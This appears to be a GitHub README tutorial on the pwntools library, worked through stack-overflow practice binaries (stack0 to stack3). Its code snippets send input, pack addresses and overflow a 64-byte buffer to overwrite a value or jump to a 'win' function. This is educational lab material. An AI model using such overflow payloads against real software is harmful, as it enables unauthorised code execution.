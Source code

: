 # Usage

<details>
	<summary>:heavy_check_mark: Executing an Application</summary>
	<p>

![img](assets/1-app-exec.png)

- Code
```py
# importing the module
from pwn import *

# specifying the binary location
elf = ELF("./stack0")

# executing the binary
p = elf.process()
```

- Script Output
![img](assets/1-app-script.png)

</p>
</details>


<details>
	<summary>:heavy_check_mark: Providing input for the application and obtaining the output</summary>
	<p>

![img](assets/2-inop-from-app.png)

- Code
```py
from pwn import *
elf = ELF("./stack0")
p = elf.process()

# send input to the application with \r\n at the end
p.sendline(bytes("aaaaaa", 'latin-1')) # need to send in encoded format, since unicode may convert address values to some other characters. 'Latin-1' encoding is used

# recieve the output form the application until the EOF character, $ can be replaced with anything the is a part of the applications output
# p.recvuntil('$') 
# p.recvall() # recives all the output from the application, since the output will be in the format we need to decode it to obtain normal format
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/2-inop-script.png)

</p>
</details>

<details>
	<summary>:heavy_check_mark: Passing arguments to the application</summary>
	<p>

![img](assets/3-arg-pass.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# procvide the argument in a list format, if there are multiple arguments provide like [arg1, arg2, .....argn]
p = elf.process(['ls'])

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/3-arg-pass-script.png)

	</p>
</details>

<details>
	<summary>:heavy_check_mark: Packing the address</summary>
	<p>

![img](assets/4-address-pack.png)

- Code
```py
from pwn import *
elf = ELF("./stack1")

# creating a payload which fills the buffer and writes the target address in little endian format
# there are options like p16(), p32(), p64() packing options required for 16bit, 32bit and 64bit binaries respectively
# the p32() is of bytes type so the payload / the characters which will be appeded with the target value must be in bytes format
payload = b"a"*64 + p32(0x61626364)

p = elf.process([payload])
print(str(p.recvall(),'utf-8'))

```

- Script Output
![img](assets/4-address-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Executing with environment variables set </summary>
<p>

![img](assets/5-env-var.png)

- Code
```py
from pwn import *
elf = ELF("./stack2")

# setting environment variable on the executing phase, environment variables takes the dict data type "env={key1:value1, key2:value2,......keyn:valuen}"
p = elf.process(env={"GREENIE":'test'})

print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/5-env-script.png)

</p>
</details>

<details>
<summary>:heavy_check_mark: Finding address of a function </summary>
<p>

![img](assets/6-win-address.png)

- Completing the exercise with the found value
![img](assets/6-man-win.png)

- Code
```py
from pwn import *
# from pprint import pprint
elf = ELF("./stack3")

# display all the functions in the binary
# print(elf.symbols)
# print functions information in a pretty way
# pprint(elf.symbols)

# obtain a deciaml value of a specific funciton in the binary
win = elf.symbols['win']

# crafting payload, packing the decimal value as address
payload = b"a"*64 + p32(win)

p = elf.process()
p.sendline(payload)
print(str(p.recvall(), 'utf-8'))
```

- Script Output
![img](assets/6-win-script.png)

</p>
</details>